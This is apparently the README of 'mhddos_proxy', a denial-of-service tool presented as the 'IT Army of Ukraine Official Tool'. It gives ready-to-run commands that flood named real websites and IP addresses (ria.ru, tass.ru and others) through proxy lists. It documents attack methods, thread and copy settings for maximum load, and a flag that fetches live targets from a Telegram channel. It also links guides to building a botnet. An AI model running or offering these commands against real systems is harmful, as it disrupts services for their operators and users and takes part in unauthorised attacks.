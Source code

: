 ## IT Army of Ukraine Official Tool

### Use flag `--lang EN` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates

Update versions for | Mac | Linux | Android | Docker (UA only so far): https://telegra.ph/Onovlennya-mhddos-proxy-04-16

- **21.05.2022**
  - Added english localization - use flag `--lang EN` (more languages may be added later)

- **18.05.2022**
  - Added `--copies` option in order to run multiple copies (recommended for use with 4+ CPUs and network > 100 Mb / s).

- **15.05.2022**
  - Completely updated the asynchronous version, which ensures maximum efficiency and minimum load on the system
  - Efficient operation with larger values of the `-t` parameter (up to 10k) without the risk of "freezing" the whole system
  - A brand-new algorithm for load balancing between targets in order to achieve maximum efficiency
  - Attack types `RGET`, `RHEAD`, `RHEX` and `STOMP` added

### 💽 Installation - [instructions are here](/docs/installation.md)

### 🕹 Running (different options for targets are given)

#### Python (If it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 🛠 Settings (check out more in the [CLI](#cli) section)

**All options can be combined**, you can specify them either before and after the list of targets

Change the workload: `-t XXXX`; the maximum number of simultaneously open connections; the default is 7500 (or 1000 if the machine has only one CPU).

    python3 runner.py -t 5000 https://ria.ru https://tass.ru

To monitor information about the progress, add the `--debug` flag for the text, `--table` for the table-style display

    python3 runner.py --debug https://ria.ru https://tass.ru

To use targets provided by https://t.me/itarmyofukraine2022 add the `--itarmy` option  

    python3 runner.py --itarmy --debug

### 📌 New automatic proxy finder for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 🐳 Community (mostly in Ukrainian)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--table]
                     [--debug]
                     [--vpn]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 2000     Total number of threads to run (default is CPU * 1000)
      --table                Print log as table
      --debug                Print log as text
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1)
      --lang {EN,UA}         Select language (default is UA)

### Custom proxies

#### File format:

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password
    protocol://username:password@IP:PORT

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for private one format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    python3 runner.py https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt
    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://tass.ru --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    python3 runner.py --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)
